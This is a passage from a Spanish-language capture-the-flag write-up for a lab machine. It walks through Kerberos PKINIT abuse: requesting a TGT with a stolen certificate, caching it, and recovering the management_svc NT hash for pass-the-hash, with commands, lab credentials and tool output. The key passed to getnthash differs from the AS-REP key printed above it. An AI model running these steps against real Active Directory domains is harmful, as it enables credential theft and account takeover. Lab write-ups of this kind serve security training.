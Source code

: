 Ahora que tenemos las dependencias preparadas, ejecutaremos el siguiente comando para solicitar un TGT

~~~ bash
# Sincronizamos el reloj local con el del DC antes de lanzar el ataque
ntpdate 10.10.11.41

python3 gettgtpkinit.py certified.htb/management_svc -cert-pfx ../wvkggrHQ.pfx -pfx-pass MQXxINJmGoyoK275HVEK management_svc.ccache -dc-ip 10.10.11.41

2025-03-15 23:52:13,120 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-15 23:52:13,146 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-15 23:52:13,753 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-15 23:52:13,753 minikerberos INFO     f134f5cd93fdf59520c7f94919536daa977ab1b5379bf9a5e600baa6c0129331
INFO:minikerberos:f134f5cd93fdf59520c7f94919536daa977ab1b5379bf9a5e600baa6c0129331
2025-03-15 23:52:13,757 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
~~~

Recordemos salir del entorno virtual con el comando `deactivate` por más obvio que pueda parecer
{: .notice--warning}

Para autenticarnos y obtener el hash `NT` de la cuenta `management_svc` necesitaremos emplear la contraseña que nos genera el script


### Getting NT Hash - `management_svc`

Antes de continuar con el ataque, debemos asignar el ticket generado a la variable de entorno `KRB5CCNAME` para que `kerberos` pueda hacer uso de estas credenciales cacheadas

~~~ bash
export KRB5CCNAME=management_svc.ccache
~~~

Con el ticket cargado en la variable de entorno, podemos obtener el hash `NT` de la cuenta `management_svc`

~~~ bash
python3 getnthash.py certified.htb/management_svc -key c954d302040d018b7a16f0cee41cfc4cde654d25fa07d5bdcd9a05761a04cce6

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
~~~ 


## Shell as `management_svc` - PassTheHash
